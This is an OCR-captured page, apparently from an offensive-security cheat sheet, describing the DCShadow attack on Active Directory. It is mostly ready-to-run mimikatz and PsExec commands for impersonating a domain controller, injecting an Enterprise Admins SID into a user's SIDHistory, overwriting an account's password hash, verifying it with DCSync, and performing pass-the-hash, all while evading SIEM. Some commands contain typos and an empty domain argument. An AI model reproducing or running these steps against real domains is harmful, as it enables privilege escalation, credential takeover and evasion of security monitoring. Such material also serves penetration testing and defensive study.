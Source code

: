 ## DCShadow
It simulates the behavior of a Domain Controller (using protocols like RPC used only by DC) to inject its own data, bypassing most of the common security controls and including your SIEM. It shares some similarities with the DCSync attack (already present in the lsadump module of mimikatz). 

```bash
# run as system
PsExec.exe -i -s cmd 
```

SID History is an attribute that supports migration scenarios. Every user account has an associated Security IDentifier (SID) which is used to track the security principal and the access the account has when connecting to resources. SID History enables access for another account to effectively be cloned to another and is extremely useful to ensure users retain access when moved (migrated) from one domain to another.

```bash
# push attribute 
mimikatz.exe
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5-21-1070240333-336889418-1185445934-519

# open cmd as admin
# push the attribute change
mimikatz.exe
lsadump::dcshadow /push
```

# DCShadow - Hash

```bash
# run as system
PsExec.exe -i -s cmd 

# push attribute 
mimikatz.exe
lsadump::dcshadow /object:jenkinsadmin /attribute:unicodePwd /value:00000000000000000000000000000000


# open cmd as admin
# see the hash
lsdump:dcsync /user:jenkinsadmin

#push the attribute change
mimikatz.exe
lsadump::dcshadow /push

# see the changed hash
lsdump:dcsync /user:jenkinsadmin

# Pass the hash attack
sekurlsa::pth /user:jenkinsadmin /domain: /ntlm:00000000000000000000000000000000 /run:powershell.exe
```
